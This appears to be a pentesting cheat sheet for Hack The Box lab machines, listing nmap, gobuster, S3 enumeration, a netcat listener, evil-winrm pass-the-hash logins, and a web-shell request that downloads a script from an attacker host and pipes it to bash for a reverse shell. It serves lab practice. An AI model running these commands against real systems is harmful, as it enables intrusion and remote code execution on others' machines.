 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password